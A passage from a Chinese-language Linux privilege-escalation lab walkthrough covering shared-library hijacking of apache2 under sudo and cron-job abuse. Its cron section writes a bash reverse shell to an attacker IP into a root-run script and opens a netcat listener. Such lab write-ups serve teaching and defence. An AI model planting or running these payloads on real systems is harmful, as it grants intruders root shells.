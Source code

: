 ![image-20221010111937431](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010111937431.png)

退出root shell，将上面的/tmp/libcrypt.so.1文件 重命名为apache2使用的另一个库的名称，然后再次使用 sudo 重新运行 apache2（也能获得root权限）：

![image-20221010112612951](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010112612951.png)

## Cron Jobs提权-文件权限分配错误

Cron 作业（jobs）是用户可以安排在特定时间或间隔运行的程序或脚本。Cron 表文件(crontabs)里面存储着 Cron 作业的配置，在系统范围内的 crontab 位于/etc/crontab路径下。

使用命令查看全系统 crontab 的内容:

```shell
cat /etc/crontab
```

![image-20221010121227914](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010121227914.png)

可以看到：有两个 cron 作业计划每分钟运行一次，一个运行 overwrite.sh，另一个运行/usr/local/bin/compress.sh。

我们找到 overwrite.sh 文件的完整路径，查看权限分配情况（普通用户可读写）:

```shell
locate overwrite.sh
ls -l /usr/local/bin/overwrite.sh
```

![image-20221010121410531](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010121410531.png)

用以下内容替换overwrite.sh文件内容（ip修改为攻击机ip，在使用openvpn的情况下，是tun0处的ip地址，输入ifconfig查看即可）：

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.14.30.69/4444 0>&1
```

![image-20221010121641537](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010121641537.png)

新的overwrite.sh文件内容其实是一个反向shell payload，我们在攻击机的端口4444上设置一个 netcat 监听器，并等待目标机上的cron 作业运行(应该不会超过一分钟)，然后root shell就会回连攻击机上的 netcat 监听器：

```shell
nc -nvlp 4444
```

![image-20221010121840221](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010121840221.png)

## Cron Jobs提权-PATH环境变量

使用命令查看全系统 crontab 的内容（cat /etc/crontab），和上一小节一样的结果，可以看到有两个 cron 作业计划每分钟运行一次，一个运行 overwrite.sh，另一个运行/usr/local/bin/compress.sh，还可以看到crontab的PATH变量值。

![image-20221010220213700](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010220213700.png)

在本小节我们要利用Cron Jobs结合PATH环境变量来提权，注意，由上图可知：本例中crontab的PATH 变量是从/home/user 开始（这是用户的 home 目录）
